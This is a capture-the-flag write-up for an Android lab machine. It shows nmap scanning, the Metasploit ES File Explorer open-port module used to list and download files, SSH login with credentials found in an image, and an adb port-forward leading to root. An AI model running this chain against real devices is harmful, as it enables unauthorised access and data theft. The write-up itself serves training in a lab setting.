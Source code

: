 #ctf #adb #vuln #filesystem 
![[explore1.png]]

----

## User.txt
Let’s check the **open ports** with **nmap**

```bash
sudo nmap -sV -p- -Pn -vv -T4 10.10.10.247
```

Output:
```bash
PORT      STATE    SERVICE REASON         VERSION
2222/tcp  open     ssh     syn-ack ttl 63 Banana Studio SSH server app (net.xnano.android.sshserver.tv) (protocol 2.0)
5555/tcp  filtered freeciv no-response
46243/tcp open     unknown syn-ack ttl 63
59777/tcp open     http    syn-ack ttl 63 Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
```

Looking in the **port 59777** i found this directories
```bash
/bin                  (Status: 301) [Size: 63] [--> /bin/]
/cache                (Status: 301) [Size: 67] [--> /cache/]
/config               (Status: 301) [Size: 69] [--> /config/]
/d                    (Status: 301) [Size: 59] [--> /d/]
/data                 (Status: 301) [Size: 65] [--> /data/]
/dev                  (Status: 301) [Size: 63] [--> /dev/]
/etc                  (Status: 301) [Size: 63] [--> /etc/]
/init                 (Status: 403) [Size: 31]
/lib                  (Status: 301) [Size: 63] [--> /lib/]
/oem                  (Status: 301) [Size: 63] [--> /oem/]
/proc                 (Status: 301) [Size: 65] [--> /proc/]
/product              (Status: 301) [Size: 71] [--> /product/]
/sbin                 (Status: 301) [Size: 65] [--> /sbin/]
/storage              (Status: 301) [Size: 71] [--> /storage/]
/sys                  (Status: 301) [Size: 63] [--> /sys/]
/system               (Status: 301) [Size: 69] [--> /system/]
/vendor               (Status: 301) [Size: 69] [--> /vendor/]
```

It’s seems as a **file explorer**. If we search **port 59777** on Google, we can found
![[explore2.png]]

Try searching in **metasploit**
There are a **aux** module
```bash
use auxiliary/scanner/http/es_file_explorer_open_port
```

And then, **show options**
```bash
Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ACTIONITEM                   no        If an app or filename if required by the action
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.247     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/usin
                                          g-metasploit.html
   RPORT       59777            yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   THREADS     1                yes       The number of concurrent threads (max one per host)
   VHOST                        no        HTTP server virtual host


Auxiliary action:

   Name           Description
   ----           -----------
   GETDEVICEINFO  Get device info
```

Set the **RHOSTS** and type **show actions**
```bash
Auxiliary actions:

    Name            Description
    ----            -----------
    APPLAUNCH       Launch an app. ACTIONITEM required.
=>  GETDEVICEINFO   Get device info
    GETFILE         Get a file from the device. ACTIONITEM required.
    LISTAPPS        List all the apps installed
    LISTAPPSALL     List all the apps installed
    LISTAPPSPHONE   List all the phone apps installed
    LISTAPPSSDCARD  List all the apk files stored on the sdcard
    LISTAPPSSYSTEM  List all the system apps installed
    LISTAUDIOS      List all the audio files
    LISTFILES       List all the files on the sdcard
    LISTPICS        List all the pictures
    LISTVIDEOS      List all the videos
```

Trying every action, I can look some interesting.
Set the action LISTPICS with **set action LISTPICS**
And then, exploit

Output
```bash
[+] 10.10.10.247:59777
concept.jpg (135.33 KB) - 4/21/21 02:38:08 AM: /storage/emulated/0/DCIM/concept.jpg
anc.png (6.24 KB) - 4/21/21 02:37:50 AM: /storage/emulated/0/DCIM/anc.png
creds.jpg (1.14 MB) - 4/21/21 02:38:18 AM: /storage/emulated/0/DCIM/creds.jpg
224_anc.png (124.88 KB) - 4/21/21 02:37:21 AM: /storage/emulated/0/DCIM/224_anc.png
```

We can see the **creds.jpg** file
```bash
wget http://10.10.10.247:59777/storage/emulated/0/DCIM/creds.jpg
```

![[explore3.png]]

**User:** kristi
**Password:** Kr1sT!5h@Rp3xPl0r3!

Let’s log in via **ssh**
```bash
ssh kristi@10.10.10.247 -p 2222
```

After search in the **file system**, I found the **user.txt** flag in
```bash
/sdcard/user.txt
```

```bash
:/sdcard $ cat user.txt
f3201717***********91ae250
:/sdcard $
```

## Root.txt
Now let’s **identify the port 5555**, that normally is for **adb** connections.
```bash
ss -ntpl
```

```bash
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN      0      50           *:2222                     *:*                   users:(("ss",pid=28719,fd=84),("sh",pid=27000,fd=84),("droid.sshserver",pid=3946,fd=84))
LISTEN      0      8       [::ffff:127.0.0.1]:36431                    *:*
LISTEN      0      50       [::ffff:10.10.10.247]:38223                    *:*
LISTEN      0      4            *:5555                     *:*
LISTEN      0      10           *:42135                    *:*
LISTEN      0      50           *:59777                    *:*
```

From our host the **5555 port is filtered**, then, we can do a port forward through **ssh**
```bash
ssh -L 5555:127.0.0.1:5555 kristi@10.10.10.247 -p 2222
```

Now we can connect with **adb**
```bash
adb connect 127.0.0.1:5555
```

And get a **shell**
```bash
adb shell
```

```bash
x86_64:/ $ whoami
shell
```

Then, type **su** and press enter
```bash
x86_64:/ $ su
:/ # whoami
root
```

Now we are **root** and just find the **root.txt** flag in
```bash
:/ # cd data
:/data # cat root.txt
f04fc*********2be59338c5
:/data #
```


I hope you found it useful (:
